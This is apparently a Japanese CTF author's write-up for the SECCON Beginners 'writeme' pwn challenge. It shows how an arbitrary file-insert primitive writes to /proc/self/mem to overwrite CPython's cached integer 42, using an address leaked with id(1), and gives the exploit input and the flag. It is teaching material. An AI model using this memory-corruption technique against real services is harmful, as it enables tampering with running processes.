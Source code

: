 # writeme

## 問題文
writeme.  
(A little pwn)  
`nc writeme.quals.beginners.seccon.jp 27182`  
[writeme.tar.gz](files/writeme.tar.gz) 6fed82490d18ce779247e47a6d89efb2e52e753c  

## 難易度
**Medium**  

## 作問にあたって
CPythonの整数がキャッシュされることを知って思いついた問題です。  
/proc/self/memを書き換えるのはreadmeリスペクト。  
writeme.は実は正規表現でwrite`mem`を示しています(白目)。  
論理の飛躍もなく、作問者の中でも解けている人がいたので難易度は許容範囲だと思っています(Hardには少し弱い気がしました)。  

## 解法
ソースを読むと、存在するファイルに文字列`Hack`を挿入できるサービスが動いている。  
最初にChanceと称するevalがあるが`42=99`などはできないので後々使うことを考えておく。  
方針としてflagファイルに文字列を挿入し読み取る、もしくは`42>=99`をTrueとすることを目指す。  
flagファイルに文字列を挿入するのは、ファイル名がチェックされており難しそうであるので後者のアプローチを考える。  
任意のファイルに文字列挿入ができるので、`/proc/self/mem`を書き換え可能であり、場所は不明だが数値42もしくは99のオブジェクトの中身を破壊してやると`42>=99`がTrueとなると予測できる。  
ここでCPythonは32バイトずつ数値オブジェクトを順にキャッシュしていることを思い出す。  
Chanceの5文字のevalで行えることはidくらいしかないことから、それを用いることを思考の始まりとしても上記のアプローチに落ち着くと思われる(Congrats!とかあるし)。  
id(1)により無事に数値1のアドレスがリークできるので、id(1)+41*32で書き換える先のid(42)を求める。  
実際32バイトは以下のように求めることができる。  
```python
>>> int(id(2))-int(id(1))
32
>>> (int(id(42))-int(id(1)))/41
32.0
```
ちなみに大きいものはそうでもない。  
```python
>>> (int(id(124))-int(id(123)))
32
>>> (int(id(1235))-int(id(1234)))
-67072224
```
seekで先ほどリークしたアドレス分スキップすることで数値42を改造できる。  
```python
>>> fd = open("/proc/self/mem", "rb")
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00*\x00\x00\x00\x00\x00\x00\x00'
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00+\x00\x00\x00\x00\x00\x00\x00'
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00,\x00\x00\x00\x00\x00\x00\x00'
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00-\x00\x00\x00\x00\x00\x00\x00'
>>> ord("*")
42
>>> ord("+")
43
>>> ord(",")
44
>>> ord("-")
45
```
どうやら25バイト目に数値本体が入っているようだ。  
ここを破壊してやれば`42>=99`をTrueにすることができそうだ。  
```python
>>> fd = open("/proc/self/mem", "rb+")
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00*\x00\x00\x00\x00\x00\x00\x00'
>>> fd.seek(int(id(42))+24)
10915832
>>> fd.write(b"A")
1
>>> fd.flush()
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00A\x00\x00\x00\x00\x00\x00\x00'
>>> 42
65
>>> chr(65)
'A'
```
+24seekすればよい。  
挿入される文字列が`Hack`であるため、99より大きくなる。  
```python
>>> fd = open("/proc/self/mem", "rb+")
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00*\x00\x00\x00\x00\x00\x00\x00'
>>> fd.seek(int(id(42))+24)
10915832
>>> fd.write(b"Hack")
4
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00Hack\x00\x00\x00\x00'
>>> fd.flush()
>>> 42
1801675080
>>> hex(1801675080)
'0x6b636148'
>>> hex(ord("H"))
'0x48'
>>> hex(ord("a"))
'0x61'
>>> hex(ord("c"))
'0x63'
>>> hex(ord("k"))
'0x6b'
>>> 42>=99
True
```
よって解法は以下の入力になる。  
```text
id(1)
/proc/self/mem
id(1)の結果 + 41*32 + 24
```
solverを書いてやればよい。  
```bash
$ python solver.py
140601518577968
140601518579304
ctf4b{r36ul4r_3xpr35510n_f0r_4ny_51n6l3_ch4r4c73r}
```

## ctf4b{r36ul4r_3xpr35510n_f0r_4ny_51n6l3_ch4r4c73r}

